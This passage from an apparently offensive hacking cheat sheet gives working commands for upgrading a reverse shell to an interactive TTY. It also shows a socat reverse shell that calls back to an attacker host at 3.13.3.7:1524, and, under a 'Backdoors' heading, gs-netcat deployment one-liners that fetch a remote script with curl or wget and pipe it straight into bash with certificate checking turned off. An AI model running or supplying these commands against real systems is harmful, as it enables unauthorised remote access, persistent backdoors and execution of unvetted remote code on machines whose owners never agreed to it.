 <a id="reverse-shell-interactive"></a>
**5.ii.b. Upgrade a reverse shell to a fully interactive shell**

...and if we also like to use Ctrl-C etc then we have to go all the way and upgrade the reverse shell to a real fully colorful interactive shell:

```sh
# On the target host spawn a PTY using any of the above examples:
python -c 'import pty; pty.spawn("/bin/bash")'
# Now Press Ctrl-Z to suspend the connection and return to your own terminal.
```

```
# On your terminal execute:
stty raw -echo icrnl opost; fg
```

```sh
# On target host
export SHELL=/bin/bash
export TERM=xterm-256color
reset -I
stty -echo;printf "\033[18t";read -rdt R;stty sane $(echo "${R:-8;80;25}"|awk -F";" '{ printf "rows "$3" cols "$2; }')
# Pimp up your prompt
# PS1='USERS=$(who | wc -l) LOAD=$(cut -f1 -d" " /proc/loadavg) PS=$(ps -e --no-headers|wc -l) \[\e[36m\]\u\[\e[m\]@\[\e[32m\]\h:\[\e[33;1m\]\w \[\e[0;31m\]\$\[\e[m\] '
PS1='\[\033[36m\]\u\[\033[m\]@\[\033[32m\]\h:\[\033[33;1m\]\w\[\033[m\]\$ '
```

<a id="reverse-shell-socat"></a>
**5.ii.c. Reverse shell with socat (fully interactive)**

...or install socat and get it done without much fiddling about:

```sh
# on attacker's host (listener)
socat file:`tty`,raw,echo=0 tcp-listen:1524
# on target host (reverse shell)
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:3.13.3.7:1524
```

---
<a id="backdoor"></a>
## 6. Backdoors

See [Reverse Shell / Dumb Shell](#reverse-shell) for simple 1-liner reverse shells.

<a id="gsnc"></a>
**6.i. Reverse shell using gs-netcat**

Mostly we use gs-netcat's automated deployment script: [https://www.gsocket.io/deploy](https://www.gsocket.io/deploy).
```sh
bash -c "$(curl -fsSLk https://gsocket.io/y)"
```
or
```sh
bash -c "$(wget --no-check-certificate -qO- https://gsocket.io/y)"
```
